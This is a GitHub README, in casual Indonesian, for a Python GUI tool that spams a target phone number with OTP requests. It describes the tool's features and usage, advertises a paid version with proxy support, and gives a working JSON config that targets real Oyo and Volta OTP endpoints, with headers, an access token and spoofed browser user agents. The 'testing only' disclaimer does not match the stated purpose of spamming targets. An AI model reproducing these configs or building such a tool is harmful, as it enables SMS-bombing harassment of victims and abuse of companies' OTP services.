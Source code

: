 # 📱🔥 SPAM OTP GUI - README 🔥📱
![Spam OTP Banner](https://github.com/YoshCasaster/store_db/blob/main/Screenshot%202025-04-19%20122754.png?raw=true)  


Halo bro! 👋 Ini adalah aplikasi SPAM OTP keren dengan GUI yang kece pake Python 🐍. Buat yang mau ngirim OTP ke nomor tertentu (buat testing doang ya, jangan disalahgunakan 😉).

## 🚀 Fitur-Fitur Keren
- 💻 Tema warna ala Discord biar aesthetic ✨
- 🔐 Sistem login pake kode validasi biar aman
- 🌐 Auto cek koneksi internet biar ga error
- 📲 Support 3 format nomor (local, internasional, +62)
- ⚡ Multi-threading biar ga nge-freeze
- 📜 Log history buat liat hasil pengiriman
- 🛑 Tombol stop buat berhentiin kapan aja

## 🛠️ Cara Pake
1. **Login Dulu** 🔒  
   - Masukin kode validasi yang bener  
   - Kalo bener, langsung masuk ke menu utama  

2. **Masukin Nomor Target** 📱  
   - Isi nomor yang mau dikirimin OTP (contoh: 8123456789)  

3. **Gaspol!** 🚀  
   - Klik tombol "KIRIM" buat mulai spam  
   - Klik "STOP" kalo udah cukup  

4. **Liat Hasil** 📜  
   - Semua log pengiriman bakal muncul di textbox bawah  

## ⚠️ Peringatan
- Jangan disalahgunakan ya bro! 🙏  
- Ini cuma buat testing doang  
- Kalo internet mati, bakal muncul notif  

## 💻 Teknis
- Pake library `tkinter` buat GUI-nya  
- Ada multithreading biar ga lag  
- Ambil config dari GitHub biar fleksibel

## 💰 Mau Versi Full OTP?

[![Telegram](https://img.shields.io/badge/🛒_BELI_FULL_OTP-2CA5E0?style=for-the-badge&logo=telegram&logoColor=white)](https://t.me/Yoshcc)

Fitur versi full:
- ✅ 10+ layanan OTP terupdate
- 🔄 Auto update config otomatis
- 📊 Statistik pengiriman real-time
- 🛡️ Support proxy & multi-threading
- 🔥 Fitur-fitur premium lainnya

## 🔧 Contoh Config OTP (otp_config.json)
```json
[
    {
        "name": "Oyo",
        "method": "post",
        "url": "https://identity-gateway.oyorooms.com/identity/api/v1/otp/generate_by_phone?locale=id",
        "data": "{\"phone\": \"target_number\", \"country_code\": \"+62\", \"country_iso_code\": \"ID\", \"nod\": \"4\", \"send_otp\": \"true\", \"devise_role\": \"Consumer_Guest\"}",
        "headers": {
            "Host": "identity-gateway.oyorooms.com",
            "consumer_host": "https://www.oyorooms.com",
            "accept-language": "id",
            "access_token": "SFI4TER1WVRTakRUenYtalpLb0w6VnhrNGVLUVlBTE5TcUFVZFpBSnc=",
            "User-Agent": "Mozilla/5.0 (Linux; Android 10; SM-A107F) AppleWebKit/537.36 (KHTML,like Gecko) Chrome/83.0.4103.106 Mobile Safari/537.36",
            "Content-Type": "application/json",
            "accept": "*/*",
            "origin": "https://www.oyorooms.com",
            "referer": "https://www.oyorooms.com/login",
            "Accept-Encoding": "gzip,deflate,br"
        }
    },
    {
        "name": "Volta",
        "method": "post",
        "url": "https://auth-production.voltaindonesia.com/v1/client/request-otp",
        "data": "{\"phoneNumber\": \"target_number\"}",
        "headers": {
            "accept": "application/json, text/plain, */*",
            "accept-encoding": "gzip, deflate, br, zstd",
            "accept-language": "en-US,en;q=0.9,id;q=0.8",
            "content-type": "application/json",
            "origin": "https://voltaindonesia.com",
            "referer": "https://voltaindonesia.com/",
            "user-agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/128.0.0.0 Safari/537.36"
        }
    }
]
```


### Penjelasan Config:
- `name` : Nama layanan yang mau di-spam (e.g. Oyo, Volta)
- `url` : Endpoint API untuk request OTP
- `data` : Payload yang dikirim (pake placeholder `target_number` yang bakal diganti)
- `headers` : Header request biar mirip request asli dari browser/app

## 🎨 Tampilan
![Preview GUI]  
(Warna gelap ala Discord, ada tombol warna-warni, log history, dll)

## 📝 Catatan
Creator: **Yosepwdd**  
Dibuat pake ❤️ dan Python  

Yang mau modif silahkan, tapi jangan lupa kasih credit ya 😘  

```bash
# Cara jalanin:
python spam_otp.py
```

Semoga bermanfaat! Kalo ada error, jangan nangis ya 😂  
Peace out! ✌️
